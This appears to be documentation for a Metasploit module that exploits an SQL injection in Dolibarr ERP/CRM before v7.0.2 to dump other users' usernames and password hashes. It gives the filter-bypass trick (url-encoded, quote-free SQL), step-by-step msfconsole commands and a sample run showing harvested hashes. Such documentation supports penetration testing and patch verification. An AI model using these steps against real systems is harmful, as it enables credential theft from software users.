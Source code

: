 ## Description

  This module enables an authenticated user to collect usernames and encrypted passwords of other users of the ERP/CRM Dolibarr software via SQL injection.
  Checks in the Dolibarr software can be bypassed by url-encoding the SQL commands, provided that the commands do not contain quotes.

## Vulnerable Application

  Dolibarr ERP/CRM Software versions < v7.0.2. Dolibarr v7.0.0 can be found [here](https://www.exploit-db.com/apps/04b0bb4b4864117b5bf47c0fcc737254-dolibarr-7.0.0.tar.gz).
  By default, user accounts do not have access to view the list of other users of the software. The admin account must first be used to enable the members page, create general users, and give those users permission to access the members page.
  
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/gather/dolibarr_list_creds_sqli```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set USERNAME [USER]```
  6. Do: ```set PASSWORD [PASS]```
  7. Do: ```set TARGETURI [URI]```
  8. Do: ```run```
  9. You should get a list of credentials

## Scenarios

### Tested on Dolibarr v7.0.0 running on Ubuntu 18.04

```

  msf > use auxiliary/gather/dolibarr_list_creds_sqli
  msf auxiliary(gather/dolibarr_list_creds_sqli) > set username test
  username => test
  msf auxiliary(gather/dolibarr_list_creds_sqli) > set password blah
  password => blah
  msf auxiliary(gather/dolibarr_list_creds_sqli) > set targeturi /dolibarr
  targeturi => /dolibarr
  msf auxiliary(gather/dolibarr_list_creds_sqli) > set rhosts 192.168.37.228
  rhosts => 192.168.37.228
  msf auxiliary(gather/dolibarr_list_creds_sqli) > run

  [*] Logging in...
  [+] Successfully logged into Dolibarr
  [+] Accessed credentials
  [+] user 8456167fd64d3cda366bda95088dda4d7ea94995
  [+] test 9d49884ec5f2c8431572a73e3285ceed3f0bdc5b
  [+] blahBlah e345d4aa5a6a63f828870b0d299dd921d119a5c7
  [+] someUser fe79b08f9f6a1104a141ff65047087a36d926f12
  [*] Auxiliary module execution completed

```
